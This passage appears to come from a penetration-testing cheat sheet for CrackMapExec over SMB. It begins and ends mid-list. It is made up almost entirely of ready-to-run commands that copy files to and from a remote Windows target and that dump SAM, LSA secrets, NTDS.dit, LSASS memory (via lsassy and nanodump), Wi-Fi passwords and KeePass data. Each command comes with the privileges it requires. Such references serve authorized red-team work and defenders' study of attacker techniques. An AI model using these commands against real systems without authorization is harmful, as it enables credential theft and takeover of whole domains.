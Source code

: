     ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --put-file /tmp/whoami.txt [\\Windows\\Temp\\whoami.txt](file://Windows/Temp/whoami.txt)
    ```
*   **Download a file from the remote target:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --get-file  [\\Windows\\Temp\\whoami.txt](file://Windows/Temp/whoami.txt) /tmp/whoami.txt
    ```
*   **Dump SAM:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --sam
    ```
*   **Dump LSA:** Requires Domain Admin or Local Admin Privileges on target Domain Controller

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --lsa
    ```
*   **Dump NTDS.dit:** Requires Domain Admin or Local Admin Privileges on target Domain Controller

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds --users
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds --users --enabled
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds vss
    ```
*   **Dump LSASS Using Lsassy:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M lsassy
    ```
*   \*\*Dump LSASS Using nanodump:\*\*You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M nanodump
    ```
*   **Dump WIFI Password:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M wireless
    ```
*   **Dump KeePass:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M keepass_discover
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
    ```
*   **Dump DPAPI:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account
